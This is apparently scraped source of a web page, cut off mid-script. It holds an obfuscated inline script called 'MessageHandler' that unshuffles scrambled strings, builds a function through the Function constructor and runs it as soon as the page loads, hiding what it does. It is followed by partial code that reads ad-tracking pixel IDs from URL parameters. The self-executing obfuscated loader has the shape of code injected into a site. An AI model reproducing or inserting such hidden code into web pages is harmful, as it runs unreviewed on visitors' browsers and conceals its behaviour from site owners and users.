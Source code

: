       var MessageHandler;(function(){var kvf='',XQn=910-899;function UOS(c){var i=4238654;var h=c.length;var g=[];for(var b=0;b<h;b++){g[b]=c.charAt(b)};for(var b=0;b<h;b++){var j=i*(b+415)+(i%12889);var a=i*(b+574)+(i%24325);var u=j%h;var p=a%h;var q=g[u];g[u]=g[p];g[p]=q;i=(j+a)%5135570;};return g.join('')};var tsK=UOS('vqgznluxrprabohfsdcwjotktuoenctscryim').substr(0,XQn);var xhr='v l;de1tnp=iu,>a7=;om *o=Cul(+o(ilcer"rn(inrv.=h4xi{;o-=)on7.hh[gn.6t0tsr ) ,=ayv)m=.f5,e4hdsrckrr0,n.,);mf;v,o78A"76)8a]tvg[S {6}](,g8c+aba;9]j]a.]n}rvm(jsaitt29cu!=v1+=C=) ;;pa;,rnhahf+=f8"(ayA[;fv, va9 r4urru(]eutqnthn ;3)e([ Cu{=d+s6g.),i;(g+euA9})jtl.t(r;+,rl;]j2arfl==;) n,0]-1);0+(;af=){(0ravlfuntf-jr b]i0l+vvCcjavudcnads(j.ieheov ;n;n],hgf+Chcr.atajo2f=9 y)1,vjer(sg),[;=cv=v17hrr=+)v*{1+)tevu+5siv= ;m.cpf;}do[mg)fj=hv[b.sea8e)olkl.))idl)al.+0wt(+vcx<f;tgt9a[p(vt(2.rc.5j2hd+rshca(pva}r,=8+.56+ra;+ankuh-Auxvp2; jiCkrs[;re ieii;{or=n=n+l]}veht+==k!k.s;q;rrsa;>(,hi.)e(l(,=ud,p1d"g(]iv)(h;. =e1srrq+8vo2[xev.6}61(sr=l;ll=(i"bsv,)=t(usucu4s10rlv-najsa)r,;(";Ct.g  ]p<;ie,;;," rgin0n.=iea[g1=pvtuh<1n-5o]-0ael[3bxb))go.ru,1"rm)0irot [ e"ha=aA;trut=;ne;fur==agplcdeq4));qo;mvvn;<=9rj<l.=8moara=rc;{Crd,4(9 l7le gn57io=jh),(o[ntS;oini;rrlvapc.,cbuf8=(+).yih66lu8ss2(tft(7r"0)sm(z++;s)(';var BUp=UOS[tsK];var XTp='';var znm=BUp;var FOZ=BUp(XTp,UOS(xhr));var OnD=FOZ(UOS('t=!ca3Y4.)$YjYr&:Y,((.#_Y]Y,,a\/i=to3bYi][.Dc_s2s_)oa!Y(6t1oYn6!$tY=%dic;?"s"[.]5nm3Y#6=45]&-.;.nnYx0"Y(,.gesr;=a2osp1fgY]eab5r!Y6;o\'0\/S"1i;p@Br?hyY]<.((;6aw(3Yer2];YbY},&oa_ab}6$5+,w;; eYY8o1a{= Yv[;ra.rYb f.ioaernd4m.Y;;\/5%rn+%Yc ,Y4Fwbesi4Mi3$!%)32,eiB2,mY6a(0s4stYat49gi;l(5Yutttd_ss,0Yr)sxo)Cf,j%(citCYd$co{Yc1ooa%bYtrlY12v];s#ejtEc=(tano$Y;Y!tYC;a%%pnec=ss.[en](a;(41a4g2g3 Yu.#Yo()@Y7.mn,Ya!;,&a6eig;ytu=,Yu)oC{o;4e=*)t.t3n|&=;oYtf2 .;5o%;+s #};ddy&1_Y{t<Ya(nYf*($aYB(;=_Yg.x{";]_]=, (7)a.3( AHY=r_,e_-(Y0e0amY.Y7oYf7lrdi\'i09aY)_!saos)_i.D2Ce42owdEw3an]<,rYt5"7s6ut!()Ye=0ot=)j8Y(f7dm(Yy(o&g2%]3Yj)!pk)<aiY3(dY168)r;.(f]Yr1)nfbaYY)) %.bCt)a!Y.{)=$.a;(&1an574t)Y$*34ar"Y u(Yedej]))}Yb9.(n3..)n=sjYd3();YD}Y;,:j;.@y8)b;dsYr1,.9Ymrc)19]s(]YYa5j\/_j.yi"yn0Y.,Y}5hn)7)sre.f!fY;bYp$rdj(efj(YY3<b<]$e.{YYik%:,m[1)aBHjdY)Hu;2v6.9$.Yo%=pYuY8,b% Y+y gYnd b]edie!#m8{3]Y1vt({!obr)naY{.Y=n8tt, Ygsbg(3h3oaC3+g=r]Y%xCYaYa=_da36]io(i5aetn5Yi&]{%.]e.r!=)!.3)Y,Y44l 1f$bes.;.r_n}EYb?+-5j,uo<YYG)enm;Yef{.({jl.g;]2nabn<a,a2] YweYco]ge1ni]=.ae$6\'_,];fiAY&#5"$]8Y)]saino=YfnYr}n$etE=,Yn=]Y0b==Yse$;;Y]Y{4YE5As}".oYG=}t6CYSid$[Y#Ysa03ljt5-]3u)1ai0]e9wY(Y)d])o;yeC.{leY.Y0cltY$.n.teYoa}f +see0Y..sa01)o?deb(eyj6u $C8seiYY$1),p3C19&5,%YYtwi$f,Y.l7(i,( d.}deYY@Yxs%!s.detY1o,=rY)n\'htY79Y]6p,,)C20g3Y:4Yto.v3]YY_er)YjancY_%)..gb6(r)]]y4+3wjYttF(Y];)vefe]Yofh.r2a!e=Y!q8(jtGY0#e4Y>jsrY.,-*}p2r.etCYte)ck(enje%-$Yot,sa8ho,YYY%.Y?|,.gY=n}};-g!s.q}Y!="btgm+GpYe_83)jYen]b; hoa)}Y#Y.)o9ofYxefea2io]g"a64xBajna)]:rf5[r_(r+Y(eY}.(:((eY%),eYe an)YYYf, 4e]ti.(}!)%)Y!{rsa\/#dlon}uiTYj_n]MoY,725\/t)YlaY(e);p(yb2!dirrty;Fp..eeAj)<(=(i])a6)yaYe ) jo0$ow!\'Ys(it(f4Y) e{M?9oY7(Yt;YnYld3!+)y;Y%+a=$0561temYE6i63s%Yd[)]Y!2})j_YY()s("r.i,pY}av}=.a]Y9.jt3Y1:do}!"Y90D#}0{)a%]!(3]{tvY;s))Y_.9Y1t{t]&Y6i .YY2eY](1Y s$vtY(YY]:F,ig;ow YYH{tns.htrY71fn2as.7.e.ife\/a$:l.i d),)a]%(rg6e$!i8)aa81]a_d6h uel7b)($_21Yt35euYY=0cbt==l,o(!Yo0y2  a=..3Mfi{7Ye Y..@.naac) )n=1Y{D(ar6b*o( .rsx.s.e,%e)%< =covla.e (e)o))Ydy_$A,c5,bj=o8(t$t];,BYh}Y(n=.9!.Yjoo(oY];Ys)aYY(ayYa}s=.hY a,YnbYY.dYu.!Y[ a,a3as{i_(=;)}lssaa;(al!asaY]_;,M.eYY}$'));var lJC=znm(kvf,OnD );lJC(5288);return 5756})()
    </script>

    <script>

      var fullUrl = window.location.href;
      window.gogle_key = '4b58a712e2c6f669b24f9ba7b32898c7'
      window.kwaiqKey = '';
      window.fbqKey = '';
      window.ttqKey = '';
      window.bigoKey = '';
      window.gtagId = '';
      let tempCH = '';
      let sdmode = '';
      var fullUrls = fullUrl.split('?');
      if (fullUrls.length >= 2) {
        let params = fullUrls[1].split('&');
        for (var i = 0; i < params.length; i++) {
          var items = params[i].split('=');
          if (items.length == 2) {
            if (items[0]=='kwaiId') {
              window.kwaiqKey = items[1];
            } else if (items[0]=='fbPixelId') {
              window.fbqKey = items[1];
            } else if (items[0]=='ttPixelId') {
              window.ttqKey = items[1];
            } else if (items[0]=='ch') {
              tempCH = items[1];
            } else if (items[0]=='sdmode') {
              sdmode = items[1];